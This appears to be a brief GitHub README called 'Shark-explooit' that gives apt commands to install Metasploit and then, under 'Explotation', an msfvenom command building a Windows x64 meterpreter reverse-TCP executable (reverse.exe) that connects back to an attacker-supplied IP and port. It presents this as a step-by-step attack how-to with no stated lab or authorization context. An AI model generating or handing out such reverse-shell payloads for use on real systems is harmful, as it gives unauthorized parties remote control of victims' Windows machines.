




# Shark-explooit

# installation metasploit

Step-by-Step: How to Successfully Install Metasploit on Your System

Step-1 : type `` sudo apt-get update && apt-get upgrade -y `` 

Step-2 : type `` sudo apt install metasploit-framework ``

Step-3 : type `` msfconsole -h `` 

# Explotation

step 4 : type `` msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST="your ip addr" LPORT="port" -f exe -o /home/kali/Desktop/reverse.exe ``

